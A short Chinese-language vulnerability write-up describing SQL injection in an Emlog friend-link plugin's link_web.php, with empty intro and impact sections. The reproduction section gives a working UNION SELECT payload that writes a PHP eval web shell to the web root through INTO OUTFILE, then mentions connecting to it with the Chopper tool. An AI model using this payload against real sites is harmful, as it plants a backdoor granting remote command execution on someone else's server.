 ```yaml
---
title: Emlog 友情链接自助插件存在SQL注入漏洞
id: zhfly2910
---
```


# Emlog 友情链接自助插件存在SQL注入漏洞

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

在该插件当中的link_web.php文件中，直接将用户提交的数据进行了拼接，之后直接带入了查询，未经过任何的过滤操作，由此一个典型的SQL注入漏洞就这样简易的诞生了：

![image](../img/423764f83cfb33abdaeaabeb1c1a8457.png)

由于这里的参数都没有经过过滤，所以我们可以对任意参数进行验证，进行SQL注入，首先我们可以提交正常的访问请求，之后使用burpsuite进行抓包，之后改包，我们这里以URL为例：

在抓取到数据包之后，我们可以将url改为以下内容：

```
url=http://0-sec.org' union select 1,2,3,4,5,'<?php eval($_GET[cmd]); ?>' into outfile 'c:\\phpstudy\\www\\shell.php' 
```

之后，这条语句会正常执行，同时也会在C:\phpstudy\www\下生成一个shell.php，而且该shell.php中的内容正是我们之前写入的一句话，之后我们可以使用菜刀进行连接。